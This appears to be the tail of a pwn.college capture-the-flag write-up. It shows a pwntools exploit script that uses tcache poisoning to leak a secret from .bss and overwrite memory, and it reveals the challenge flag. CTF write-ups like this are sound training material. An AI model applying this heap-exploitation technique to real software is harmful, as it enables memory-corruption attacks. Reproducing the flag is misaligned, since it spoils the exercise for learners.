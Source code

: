 ```python


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    secret = elf.bss() + 0x19E0A + 0x8
    zero_out = elf.bss() + 0x19E0A - 0x8

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    scanf(0, p32(secret))
    malloc(0, 0)
    malloc(0, 0)
    puts(0)
    target.recvuntil(b"Data: ")
    secret = target.recvline().strip()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)
    # raw_input("DEBUG")
    scanf(0, p32(zero_out))
    malloc(0, 0)
    malloc(0, 0)

    # raw_input("DEBUG")
    payload = flat(
        0,
        secret,
    )
    send_flag(payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{0K4zGLVnFNCz2zhqd0R7tWLsOLW.0lN4MDL5cTNxgzW}`]
